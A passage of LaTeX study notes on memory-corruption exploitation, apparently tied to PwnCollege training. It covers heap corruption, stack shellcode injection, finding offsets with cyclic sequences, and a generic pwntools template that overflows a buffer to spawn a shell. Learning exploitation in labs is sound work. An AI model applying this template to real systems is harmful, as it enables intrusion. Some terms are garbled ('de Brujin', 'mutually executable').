 \subsection{Heap Corruption}
The typical objective is mangling data structures. E.g., changing point of a linked list. 

\subsection{Code Injection}
Idea: inject code using a buffer overflow and jumping to that portion of the stack. \\
Requirements: ASLR + NX (stack areas are mutually executable or writable) deactivated.

No stack canary means build with \texttt{-fno-stack-protector}.

See: PwnCollege "Shellcode Injection" and "Intermediate memory errors" training modules

Typically shellcraft is used to generate the shellcode.

In order to locate the offset between the beginning of user input (input buffer) and return address we can use de Brujin sequences.
\texttt{cyclic <num>} provides the means to inject the sequence, while \texttt{cyclic -l 0x<seq-hex>} locates the distance from input buffer start, thanks to low repeatability of the sequence.

Pwntools can be used to perform binary attacks:
\begin{verbatim}
from pwn import *

exec = ELF("<binary-name>")

payload = "a"*32  # offset
payload += p32(<target-addr>)
payload += asm(shellcraft.sh())

proc = process("./<bin-name>")
proc.sendlineafter(b'<str>', payload)

print(proc.clean()) # Clean returns the output of the process accumulated up to this point
proc.interactive()  # Give control to the user (since we opened a shell)
\end{verbatim}

\subsection{ASLR Bypass}
ASLR randomizes addresses with a granularity of 4k (virtual memory size).